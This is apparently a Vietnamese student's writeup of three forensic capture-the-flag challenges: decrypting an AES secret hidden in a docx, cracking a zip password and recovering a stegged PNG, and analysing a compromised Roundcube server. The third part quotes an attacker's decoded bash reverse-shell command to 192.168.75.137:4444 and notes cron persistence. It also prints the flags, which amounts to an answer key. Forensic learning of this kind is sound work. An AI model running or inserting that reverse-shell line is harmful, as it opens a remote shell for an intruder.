Writeup Ptithcm miniCTF

Em là Nguyễn Vũ Anh em là một người chơi mảng forensic, nhân tiện thì đây là lần đầu thi cũng như là viết writeup của em nên có gì sai sót mong các anh chị đưa ra phản hồi để em cải thiện thêm vào lần sau ạ.

Số challenge forensic  em solve được của kì miniCTF là 3/5 bài

bắt đầu thôi:
# CHALLENGE 1:Sweet Secrets(easy)

cảm ơn anh n0g1ong vì thử thách rất hay và thú vị này. 



đề bài này nói rằng kì  Halloween đang đến và trong khi các thành viên trong clb PIS đang chuẩn bị “cho kẹo hay bị ghẹo” thì nhiệm vụ của mình là đọc cái giới thiệu của clb PIS và tìm ra "bí mật” được ẩn giấu?
->có vẻ như phần giới thiệu của clb sẽ ẩn chứa một cái gì đấy nhằm tìm ra flag này ta dowload file và rồi mở nó ra


vào thư mục docProps để check thử thì ta thấy một tệp khá đáng ngờ secret.txt(nghe có vẻ như trong đây sẽ ẩn chứa cái gì đấy)


có vẻ như ta đã tìm được một thứ khá hay ho, ta thấy một AES data và muốn giải mã được thì cần một key và một véc tơ khởi tạo ngay lúc này thì chợt nhớ ra mình chưa đọc giới thiệu clb PIS vậy suy ra cái bí mật mà clb muốn gửi đến mình rất có thể là key và véc tơ khởi tạo để giải mã đoạn này.
ta chuyển qua và check các tệp khác, khi đi vào tệp word ta thấy có một file document.xml có dung lượng lớn hơn hẳn, ta check nó thử



mở file đấy lên thì ta thấy đúng là phần giới thiệu của clb PIS thật kéo xuống và đọc dòng giới thiệu tới một lúc ta thấy được cái này.



ta tìm được cả key lẫn véc tơ việc còn lại chỉ là đem lên cyberchef để giải quyết thôi.



flag:PIS{ha_y0u_c4n_n0t_s33_this_flag_r19ht??}
#

# **CHALLENGE 2: The Forgotten Key (easy)** 

cảm ơn anh n0g1ong vì thử thách rất hay và thú vị này.



Đề bài này nói rằng "John" cung cấp cho ta một zip file nhưng anh ta quên pass của file này rồi, anh ta có nhắc về việc file này có chứa một tin nhắn quan trọng mà anh cần phải đưa cho học sinh ở PTITHCM và nhiệm vụ của ta là tìm ra bí ẩn của tin nhắn này.

tác giả đã gài một ẩn ý rất hay đó là tên chủ file zip này là "john"? tại sao PTITHCM mà lại có cái tên nước ngoài nhỉ? -> đây là một ẩn ý về công cụ giải mã John the Ripper 
vậy thì có thể định hình được cách làm của bài này rồi đầu tiên ta sẽ sử dụng công cụ mở khóa john the Ripper sau đó tìm được mật khẩu của file zip này.


do mình đã giải được trước đó rồi nên nó ghi là no password hashes left to crack, password tìm ra là cái đã được bôi đen là "ryancolin1" đây là kiểu tấn công "từ điển" khá phổ biến dựa vào tệp mật khẩu rockyou.txt.

sau khi giải xong thì ta có được một file unknown.png và file này mặc dù là ảnh nhưng lại không mở lên được, mình phán đoán có thể header đã bị hư nên làm file không thể mở lên-> bước tiếp theo mình ném lên web hexedit và nhận ra file đúng là đã mất header của một file png thông thường.



sau đó mình sửa lại phần header thì nhận được một tấm ảnh avt của event miniCTF của clb PIS.



nhìn sơ qua thì thấy có một điểm khá bất thường ở trên góc trái trên cùng của hình.



phóng to nó lên thì khả năng cao đây là flag vì mình nhìn thấy có dòng chữ PIS khá là mờ .

tiếp theo mình thử kiểm tra metadata xem tác giả có giấu hay comment gì trong đấy không thì phát hiện được dòng này.



If You Look Up To The Sky, You Will See The Blue Sky =))))

ban đầu mình cũng hơi khó hiểu ẩn ý này cơ mà rút kinh nghiệm từ bài 1, luôn để ý những hint từ tác giả, mình nhìn lên bầu trời trong bức ảnh và... không thấy xanh lắm-> đột nhiên mình nghĩ ra ý tưởng rằng nếu chuyển màu trời thành màu xanh thì sẽ như nào.

sau một hồi tìm kiếm công thức chỉnh màu trên các video hướng dẫn photoshop thì xem mình làm được gì này.



có vẻ như flag đã rõ ràng hơn rất nhiều nên mình thử submit xem thì đây đúng là flag thật.
ngoài ra ta còn có thể sử dụng công cự stegsolve để giải nhé cách này thì nhanh hơn nhiều so với cách tự chỉnh màu của mình.

flag:PIS{h4ll0w33n_1s_f4n!!!}
#

# **CHALLENGE 3: Foothold ("easy")**

cảm ơn anh KAiZ3n vì thử thách rất hay và thú vị này.



đề bài cho ta một artifact từ một server bị nghi ngờ là đã bị tấn công và mục tiêu của mình là tìm ra lỗ hổng bảo mật đã bị khai thác(CVE) địa chỉ IP liên quan tới Foothold của kẻ tấn công và xác định persistence được cấu hình.

với định dạng cờ là PIS{CVE_ip:port_/full/path/persistence}

có vẻ như độ khó đã tăng cao lên khá nhiều ở thử thách này khi mà ta không đơn thuần chỉ là tìm kí tự nữa mà phải xác định và hiểu rõ và hình dung được cuộc tấn công này như thế nào.

sau khi dowload và giải nén file thì ta nhận được 2 tệp.



vì tệp ad1 không mở được nên ta mở tệp txt trước thì thấy nó được tạo ra bởi ftk imager đây là một gợi ý của tác giả về cách để đọc được tệp ad1 đó là dùng ftk imager.

->mình dowload ftk imager về window sau đó xuất file log của foothold.ad1 để đọc.

vì một file log rất dài và chắc chắn là không thể đọc hết nổi nên mình ngồi suy nghĩ về việc làm thế nào để kẻ đó có thể tấn công được nhỉ vậy nên mình quyết định đi check access.log để xem có truy cập bất thường gì không.

ở dòng cuối của file access.log có một truy cập nhìn vô cùng bất thường khi nó rất dài và còn được mã hóa rất đáng ngờ.



ngay lúc này mình nghĩ ngay lập tức "192.168.75.137" chính là ip của bài và giờ chỉ cần tìm port nữa thôi và kết quả thì bế tắc toàn tập vì không thể tìm được cái gì thêm...

Sau đó vì bí quá nên mình mở ticket server discord để xin hint. 





hai anh đã nhắc mình về việc cần phân tích sâu hơn nữa và tìm kiếm CVE trước. Lúc này mình dần tỉnh ra, mình suy nghĩ rằng cái mã kia nếu như mình giải nó ra thì sẽ cho ra gì nhỉ? sau một hồi tìm kiếm mình đã giải mã được nó đây là một loại chuỗi tấn công thực thi mã từ xa nhắm vào để điều khiển hệ thống


 
ta thu được một mã base 64



giải mã ra thì được



vậy thì gần như có thể chắc chắn một điều rằng "192.168.75.137/4444" chính là foothold của kẻ tấn công rồi vì lệnh được thực thi sẽ mở một cửa sổ lệnh trên máy ở ip này từ đó có thể thực hiện các lệnh tiếp theo 

-> ip:port "192.168.75.137/4444"

tiếp theo thì ta mở ftk imager lên để check phiên bản sau khi phát hiện ra lỗ hổng 



dựa vào gợi ý của anh KAiZ3n thì ta sẽ xác định xem lỗ hổng mình vừa tìm được là loại nào search từ khóa "vulnerable roundcube 1.6.10" 





có vẻ như cũng là remote code từ xa giống như cái ta đang gặp->ta đã có được CVE đó là "2025‑49113"

sau đó là persistence, ta hiện tại là một user bình thường, không có quyền admin hay gì cả vậy nên quyền truy cập vào cũng hạn chế hơn vậy thì để thiết lập persistence hay nói cách khác là một lệnh để có thể tự duy trì được cái cửa sổ lệnh đó đây? 

mình thử search trên file hệ thống với từ khóa "www-data" bởi vì www-data được tạo ra để chạy roundcube này chính vì vậy nên nó là cái đã thực hiện cái mã "bash -c 'exec bash -i &>/dev/tcp/192.168.75.137/4444 <&1'" từ đó mà kẻ tấn công có thể sử dụng được mã lệnh, ta search để xem kẻ tấn công sẽ làm gì với nó.



wow ta vừa thấy được một thư mục, sau khi tra trên google với từ khóa "crontab" thì mình nhận ra đây hoàn toàn có thể là một persistence vì nó
"Là công cụ mạnh mẽ trong Linux dùng để lên lịch và tự động hóa các tác vụ định kỳ."
có thể xem thêm ở đây:https://vietnix.vn/crontab/ vì nó lên lịch và tự động hóa các tác vụ nên rất có thể kẻ tấn công đã chỉnh sửa file này nhằm chạy tự động đoạn mã kia->đây khả năng cao là persistence.

->/var/spool/cron/crontabs/www-data 
-> ta sẽ có flag hoàn chỉnh là 
flag: PIS{CVE-2025-49113_192.168.75.137:4444_/var/spool/cron/crontabs/www-data}

# Tổng kết

Tổng kết sau 2 ngày mình giải được 3 thử thách mảng forensic còn 2 thử thách còn lại vẫn khá khó và mình vẫn chưa tìm ra cách giải, đây là suy nghĩ và cách mình giải được 3 bài này.

chân thành cảm ơn ban tổ chức và các anh chị trong PIS đã tạo ra một sân chơi đầy thử thách và thú vị cho sinh viên chúng em chúc ban tổ chức và các anh chị trong PIS luôn mạnh khỏe và còn tổ chức nhiều event như thế này nữa.

